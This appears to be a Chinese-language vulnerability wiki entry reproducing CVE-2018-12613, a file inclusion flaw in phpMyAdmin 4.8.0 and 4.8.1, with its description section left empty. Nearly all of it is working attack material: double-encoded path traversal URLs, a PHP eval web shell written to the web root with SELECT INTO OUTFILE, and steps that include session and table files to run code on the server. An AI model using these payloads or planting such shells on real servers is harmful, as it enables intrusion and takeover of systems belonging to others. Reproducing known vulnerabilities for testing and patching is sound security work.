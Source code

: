 （CVE-2018-12613）Phpmyadmin 远程文件包含漏洞
=============================================

一、漏洞简介
------------

二、漏洞影响
------------

phpMyAdmin 4.8.0和4.8.1受到影响。

三、复现过程
------------

首先需要登录phpmyadmin

### payload

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../phpStudy/使用说明.txt

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId25.png)

### 写入shell

#### 第一种姿势

##### 1、写入shell，测试语句：

    SELECT '<?php phpinfo()?>'

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId29.png)

##### 2、查看自己的sessionid（cookie中phpMyAdmin的值）。(或者Bp抓包获取本地的cookie值也可以)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId31.png)

##### 补充代码

如果上述方法不行的话，则用以下代码

    select '<?php @eval($_POST[abc]);?>' into outfile '/var/www/shell.php'

##### 3、访问：

    http://0-sec.org/index.php?target=db_sql.php%253f/../../../../../../../../phpStudy/tmp/tmp/sess_20f18hqcr2mc0nmq96vp920r6phc06v3

#### 第二种姿势

##### 1、在数据表里面添加一句话(这里一点要用get！)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId36.png)

##### 2、此时会在phpStudyMySQLdata 对应数据库下生成一个frm文件（不同版本路径可能不一样）

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-12613)Phpmyadmin远程文件包含漏洞/media/rId38.png)

##### 3、访问

    http://0-sec.org/index.php?9ouu=phpinfo();&target=db_sql.php%253f/../../../../../../phpStudy/MySQL/data/9ouu/test.frm

image
